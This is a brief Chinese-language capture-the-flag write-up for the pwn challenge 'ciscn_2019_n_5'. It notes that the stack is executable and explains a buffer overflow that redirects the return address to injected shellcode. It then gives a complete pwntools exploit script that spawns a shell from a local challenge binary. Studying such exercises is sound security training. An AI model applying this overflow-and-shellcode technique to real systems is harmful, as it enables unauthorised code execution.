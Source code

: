 ```yaml
---
title: "ciscn_2019_n_5"
description: ""
date: 2023-04-07T12:04:39+08:00
lastmod: 2023-04-07T12:04:39+08:00
draft: false
images: []
type: docs
weight: 986
toc: true
---
```


## 0x01 分析

![8b0d045a8e986b039802ea64b9eef03f](images/8b0d045a8e986b039802ea64b9eef03f.png)  

没有加栈不可执行保护

![eb773946b1dabc872dca2a03987309bd](images/eb773946b1dabc872dca2a03987309bd.png)  

主要逻辑就是溢出覆盖函数返回地址为shellcode地址

## 0x02 Exploit

```python
from pwn import*
context.arch = 'amd64'
o = process("./pwn")
payload = b'a'*0x28 + p64(0x601080)
o.sendline(asm(shellcraft.sh()))
o.sendline(payload)
o.interactive()

```

![fa33d8e465b9da0bdf1a2faa888a5231](images/fa33d8e465b9da0bdf1a2faa888a5231.png)

自行调试
